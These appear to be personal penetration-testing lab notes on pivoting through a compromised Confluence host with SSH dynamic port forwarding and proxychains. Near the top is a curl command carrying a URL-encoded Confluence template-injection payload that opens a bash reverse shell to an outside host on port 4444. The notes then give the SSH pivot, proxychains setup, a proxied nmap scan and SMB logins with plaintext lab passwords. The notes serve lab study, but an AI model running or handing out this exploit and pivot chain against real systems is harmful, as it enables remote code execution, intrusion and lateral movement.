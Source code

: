 ```yaml
---
IP_KALI: 
IP_CONFLUENCE: 192.168.236.63
PORT_UNIV: "9999"
IP_PGDATABASE: 10.4.236.215
USER: database_admin
IP_SHARES: 172.16.236.217
---
```

Improves upon local port forwarding by allowing packets to be forwarded to any socket the SSH server host has access to
![[e124e9fa2b3ef61f10a94d88ceeedca7-PRAT2_3_0_SSHDynamicPortForwarding.png]]

```
curl http://192.168.236.63
:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.209/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

Setup dynamic port forwarding on CONFLUENCE:
- ssh -N -D 0.0.0.0:<span id="PORT_UNIV"/>9999<span type="end"/> <span id="USER"/>database_admin<span type="end"/>@<span id="IP_PGDATABASE"/>10.4.236.215<span type="end"/>

Edit the last line of /etc/proxychains4.conf to read:
- socks5 <span id="IP_CONFLUENCE"/>192.168.236.63<span type="end"/> <span id="PORT_UNIV"/>9999<span type="end"/>

**Hook the commands by prepending "proxychains" to the command*** (e.g. *proxychains* smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234)

perform nmap scan using proxychains:
- proxychains nmap -vvv -sT -Pn <span id="IP_SHARES"/>172.16.236.217<span type="end"/>

sqlpass123
proxychains smbclient -L //172.16.236.217/ -U hr_admin --password=Welcome1234